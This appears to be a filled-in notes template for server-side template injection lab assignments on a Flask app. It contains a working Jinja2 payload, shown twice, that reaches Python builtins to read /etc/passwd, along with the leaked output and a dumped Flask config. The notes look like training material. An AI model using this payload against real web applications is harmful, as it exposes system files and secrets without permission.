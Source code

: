 # Reusable Notes Template for SSTI Harder Assignments

Use this skeleton to create a section for each attempt, input, or bypass you work on. Copy and paste as needed.

---

## Read /etc/passwd

- **Input Source**:
  - comments

- **Payload Used**:
  - {{ request.__class__._load_form_data.__globals__.__builtins__.open("/etc/passwd").read() }}

- **Server Response / Behavior**:
  - `Your comments: root:x:0:0:root:/root:/usr/bin/zsh...`

- **Was Execution Achieved?**:
  - (Yes/No)

- **Bypass Technique (if any)**:
  - None

- **Challenges Encountered**:
  - None

- **Notes**:
  - 

---

## Reading config

- **Input Source**:
  - email

- **Payload Used**:
  - 

- **Server Response / Behavior**:
```
  Your email: <Config {'DEBUG': True, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'SECRET_KEY': None, 'SECRET_KEY_FALLBACKS': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'TRUSTED_HOSTS': None, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_PARTITIONED': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'MAX_FORM_MEMORY_SIZE': 500000, 'MAX_FORM_PARTS': 1000, 'SEND_FILE_MAX_AGE_DEFAULT': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'PROVIDE_AUTOMATIC_OPTIONS': True}> 
```

- **Was Execution Achieved?**:
  - Yes

- **Bypass Technique (if any)**:
  - None

- **Challenges Encountered**:
  - None

- **Notes**:
  - 

---

## Read /etc/passwd

- **Input Source**:
  - comments

- **Payload Used**:
  - {{ request.__class__._load_form_data.__globals__.__builtins__.open("/etc/passwd").read() }}

- **Server Response / Behavior**:
  - `Your comments: root:x:0:0:root:/root:/usr/bin/zsh...`

- **Was Execution Achieved?**:
  - (Yes/No)

- **Bypass Technique (if any)**:
  - None

- **Challenges Encountered**:
  - None

- **Notes**:
  - 

---

(Repeat this template for each input tested or major payload attempt.)

